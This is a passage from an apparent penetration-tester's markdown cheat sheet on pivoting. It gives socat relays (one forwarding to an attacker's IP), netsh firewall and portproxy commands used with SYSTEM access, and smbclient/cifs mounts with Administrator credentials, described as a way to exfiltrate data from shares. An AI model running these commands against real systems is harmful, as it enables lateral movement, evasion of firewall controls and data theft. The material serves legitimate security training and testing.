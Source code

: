 ## Socat 

See [[Socat-Cheatsheet]] for more uses, although robust and can encrypt traffic the disadvantages of using socat is that we need to transfer it to the pivot host.
```bash
# A = Attacker, B = Pivot host, C = Server

# ssh tunnel with socat
socat TCP4-LISTEN:$port,reuseaddr,fork TCP4:domain.com:ssh

# Listener on pivot host forward any connect to 
# A -> 3389 B -> 3389 C
socat TCP4-LISTEN:3389,fork TCP4:$forwarded_to_address:3389

# If we need to exploit port 80 on attacker's machine for the server
# A 80 <- B 80 <- Server
socat TCP4-LISTEN:80,fork TCP4:$attacker_ip:80
```

## With SYSTEM level Windows Access..

With SYSTEM level Windows access we can use `netsh`. First `IP Helper service` is running and it must have IPv6 support enabled for interface to work.
```powershell
# Configure firewall to allow traffic
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=$local_ip localport=$local_port action=allow
# Connect back
netsh interface portproxy add v4tov4 listenport=$port listenaddress=$IP connectport=$local_port connectaddress=$connect_address
```
You can then use sbmclient, see [[SMB-Recon-Cheatsheet]], and mount to the share to exfilitrate data.
```bash
# Set correct protocol in smb.conf
sudo /etc/init.d/smbd restart
# List shares, port forward generates an timeout error
smbclient -L $target_address --port=$firewall_happy_port_from_above --user=Administrator
# Mount into shares to interact
sudo mkdir /mnt/$local_share
sudo mount -t cifs -o port=$firewall_happy_port_from_above //$target_address/$remote_share -o username=Administrator,password=$password /mnt/$local_share
````

## Reference

[Tunneling(Protocol) Wiki](https://en.wikipedia.org/wiki/Tunneling_protocol)
[Port forwarding Wiki](https://en.wikipedia.org/wiki/Port_forwarding)
[SSH has an academy](https://www.ssh.com/academy/ssh/protocol)
[PLINK](https://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html)
[Chisel](https://github.com/jpillora/chisel)
[Rinetd](https://github.com/samhocevar/rinetd) - Note: github version linked as his personal website has a certificate issues..
[Stunnel](https://www.stunnel.org/)
[SANS using-the-ssh-konami-code-ssh-control-sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)